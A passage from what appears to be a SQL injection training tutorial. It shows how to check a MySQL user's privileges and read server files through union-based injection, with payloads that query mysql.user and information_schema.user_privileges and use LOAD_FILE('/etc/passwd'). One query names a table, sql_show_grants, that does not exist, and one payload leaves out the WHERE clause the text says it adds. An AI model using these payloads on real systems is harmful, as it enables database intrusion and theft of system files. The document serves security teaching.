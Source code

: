 This is very promising, as a root user is likely to be a DBA, which gives us a lot of privileges.

User Privileges
---------------

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

SQL CODE
--------
```
SELECT super_priv FROM mysql.user
```
Once again, we can use the following payload with the above query:
```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
If we had many users within the DBMS, we can add WHERE user="root" to only show privileges for our current user root

SQL CODE
--------
```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
if the query return `Y`, which mean yes then they idicating we have superuser privileges

We can also dump other privileges we have directly from the schema, with the following query
```
SELECT sql_grants FROM information_schema.sql_show_grants
```
Once again, we can add WHERE user="root" to only show privileges for our current user root. Our payload would be

SQL CODE
--------
```
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -
```
And we see all of the possible privileges given to our current user: 

We see that our user has YES to all privileges. Most importantly, the FILE privilege is also enabled, enabling us to read files and potentially even write files. We can proceed with attempting to read files.


LOAD_FILE
---------

Now that we know we have enough privileges to read local system files, let's try to do that using the LOAD_FILE() function. The LOAD_FILE() function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the '/etc/passwd/' file:


Code: sql
---------
```
SELECT LOAD_FILE('/etc/passwd');
```
